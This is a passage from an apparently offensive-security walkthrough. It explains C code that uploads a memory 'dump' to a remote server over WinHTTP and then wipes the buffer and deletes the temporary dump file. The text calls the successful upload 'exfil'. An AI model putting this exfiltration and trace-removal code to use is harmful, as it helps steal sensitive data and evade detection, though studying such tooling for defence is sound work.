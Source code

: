 `WinHttpSendRequest`:

1. `hRequest`: request handle.
2. `pwszHeaders`: pointer to headers buffer (`hdrs`).
3. `dwHeadersLength`: header length in WCHARs (`hdrLen`). If `-1`, headers are null-terminated; here using explicit length.
4. `lpOptional`: pointer to request body data in memory (`fullBuffer`).
5. `dwOptionalLength`: size in bytes of body (`fileSize`).
6. `dwTotalLength`: same as `dwOptionalLength`; total size of body to send.
7. `dwContext`: `0`, no context value.



- If send succeeds, call `WinHttpReceiveResponse(hRequest, NULL)` to wait and retrieve server response. If that fails, log error.
- If both succeed, set `bResult = TRUE`.

```
WinHttpCloseHandle(hRequest);
        WinHttpCloseHandle(hConnect);
        WinHttpCloseHandle(hSession);
        free(wUrl);
    }
```

Close WinHTTP handles in reverse order:

- `WinHttpCloseHandle(hRequest)`: closes request handle.
- `WinHttpCloseHandle(hConnect)`: closes connection handle.
- `WinHttpCloseHandle(hSession)`: closes session handle.
- `free(wUrl)`: free the wide-char URL buffer.

#### cleanup Label &amp; Final Cleanup

```
cleanup:
    // Zero & free buffer
    if (fullBuffer) {
        SecureZeroMemory(fullBuffer, fileSize);
        free(fullBuffer);
    }
    // Delete the temp file
    DeleteFileA(tmpFile);
    return bResult;
}
```

**Label** `cleanup`**:** used by `goto cleanup` on earlier errors.

- `SecureZeroMemory(fullBuffer, fileSize)`: overwrites the memory buffer with zeros to remove sensitive data (the dump) from process memory before freeing.
- `free(fullBuffer)`: release allocated memory.
- `DeleteFileA(tmpFile)`: deletes the temporary dump file from disk. Even if the file was deleted before, this ensures removal if still present.
- `return bResult;`: return TRUE if exfil succeeded, FALSE otherwise.

* * *
